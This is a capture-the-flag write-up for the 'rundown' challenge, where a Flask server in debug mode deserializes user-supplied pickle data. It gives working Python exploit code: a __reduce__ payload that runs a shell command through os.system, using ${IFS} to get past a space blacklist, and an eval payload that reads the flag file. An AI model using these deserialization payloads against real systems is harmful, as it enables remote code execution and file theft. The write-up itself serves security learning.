

# rundown

Description:
```
A rundown, informally known as a pickle or the hotbox, is a situation in the game of baseball that occurs when the baserunner is stranded between two bases, also known as no-man's land, and is in jeopardy of being tagged out." ... if you stopped in the first part of the definition you are one of ours.
```

The descriptions suggests the use of the pickle library. So this will come in handy if there is a serialization vulnerability.


I'll open BurpSuite and try a different verb for the request. I'll start with "OPTIONS".


So we are dealing with a python http server, flask most likely. The only interesting method is "POST". So that's what we'll use.

Using that method reveals that debug mode is set to true. Also, the debug page reveals the use of cPickle.



Interesting code for the "POST" method:
```python
@app.route("/", methods=["POST"])
def newpost():
    picklestr = base64.urlsafe_b64decode(request.data)
    if " " in picklestr:
        return "The ' ' is blacklisted!"
    postObj = cPickle.loads(picklestr)
    return ""
```

Searching for the "loads" function from the pickle we get he following code example:
```python
data1 = [ { 'a':'A', 'b':2, 'c':3.0 } ]
print 'BEFORE:',
pprint.pprint(data1)

data1_string = pickle.dumps(data1)

data2 = pickle.loads(data1_string)
print 'AFTER:',
pprint.pprint(data2)
```

So we'll need to make a script for dumping the data we want the server to deserialize. We also need to keep in mind the ' ' character is blacklisted. I'll first test a simple sleep command.

```python
import requests
import pickle
import base64
import os

URL='http://34.107.35.141:31493/'

class Exploit:
    def __reduce__(self):
        return (os.system,('sleep${IFS}5',))

data_string=pickle.dumps(Exploit(),protocol=1)
print(base64.b64encode(data_string))

response=requests.post(url=URL,data=base64.b64encode(data_string).decode())
print(response.text)
```

And this works, the server takes some time to respond. We can use the error shown in the debug console to display the flag by trying to run the flag as python code with eval.

```python
class Exploit():
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))
```